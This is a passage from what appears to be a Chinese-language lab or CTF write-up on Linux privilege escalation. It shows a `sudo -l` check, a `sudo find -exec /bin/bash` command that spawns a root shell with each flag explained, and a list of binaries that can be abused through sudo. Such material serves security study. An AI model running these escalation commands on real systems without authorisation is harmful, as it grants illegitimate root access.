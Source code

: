 显示权限不足，那就是要普通用户提权到超级用户了

```
sudo -l
```

![image-20250717105750793](./../../_media/image-20250717105750793.png)

可以find提权

```
sudo -u root find . -exec /bin/bash \; -quit
```

命令含义：

- `sudo -u root`，以 root 用户身份执行后续命令（前提是当前用户有 `sudo`权限）。
- `find .` ，从当前目录（`.`）开始递归搜索文件和目录。
- `-exec /bin/bash \;`，对 `find`找到的每个文件或目录，执行 `/bin/bash`（启动一个交互式 shell）。`\;`表示 `-exec`参数的结束。
- `-quit`，让 `find`在执行完第一次匹配后立即退出（避免对多个文件重复执行）。

![image-20250717105303239](./../../_media/image-20250717105303239.png)

find提权本质上是suid提权的原理





##### 提权提升

sudo提权，下面的命令都可以进行尝试

```
wget、find、cat、apt、zip、xxd、time、taskset、git、sed、pip、ed、tmux、scp、perl、bash、less、awk、man、vi、env、ftp
```
